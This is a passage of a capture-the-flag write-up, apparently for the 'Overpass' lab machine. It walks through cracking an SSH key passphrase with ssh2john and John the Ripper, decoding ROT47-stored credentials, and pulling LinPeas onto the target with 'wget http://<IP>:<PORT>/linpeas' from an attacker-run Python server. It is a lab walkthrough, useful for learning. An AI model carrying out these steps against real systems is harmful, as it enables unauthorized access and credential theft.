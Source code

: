 Analyzing source code in the `overpass.go` file confirms that the variation of Caesar cipher called `rotate 47 (ROT47)` is used for encryption.

![Caesar_Cipher](https://user-images.githubusercontent.com/87711310/208141237-c2752e6c-6ec0-4c78-ae88-8f64b887d811.png)


# SSH Login

I copied the private SSH key to a file within my local machine and set appropriate permissions for the file. Although this key is protected by a passphrase.

Using `ssh2john` I was able to convert the ssh key to a format readable by `John the Ripper` and crack the passphrase.

![SSH_Passphrase](https://user-images.githubusercontent.com/87711310/208141200-f6d65c13-083f-46c2-b9f4-43313252a78e.png)

Using the credentials I was able to log into the system and retrieve the user flag.
![User_Flag](https://user-images.githubusercontent.com/87711310/208141204-14f24652-71f0-4423-9219-39abfc2d9d8d.png)


# Privillege Escalation

Reading the `todo.txt` file gives information that some password might be stored on the system using Overpass.

The user I am logged in as has `.overpass` file, which in turn has a ROT47 encoded string.

![Encoded_String](https://user-images.githubusercontent.com/87711310/208141178-d486423e-1acc-4e45-8022-f0e367d447c9.png)

It decodes to a JSON formatted data containing username and password.

![Decoded_Credentials](https://user-images.githubusercontent.com/87711310/208141241-dbdf8ed1-8481-4ce0-96b8-69f2e4350ab2.png)

The found password is the system password of the user that I am logged in as.

## System Enumeration

For enumerating the system and finding potential attack vectors, I copied `LinPeas` to the target system. For that, I followed these steps:

1. On local machine, go to the location where the `LinPeas` script is located.

2. On local machine, start Python server.

![Python_Server](https://user-images.githubusercontent.com/87711310/208141194-c8a129e0-c97e-4a9a-a16c-bf796950078d.png)


3. On the target machine, go to `/tmp` directory.

4. On the target machine, issue `wget http://<IP>:<PORT>/linpeas` command.

![LinPeas_Download](https://user-images.githubusercontent.com/87711310/208141182-f617273f-8a65-4cfc-b780-0e4cf0da9f72.png)

Run `chmod +x linpeas_linux_amd64` to make it executable.
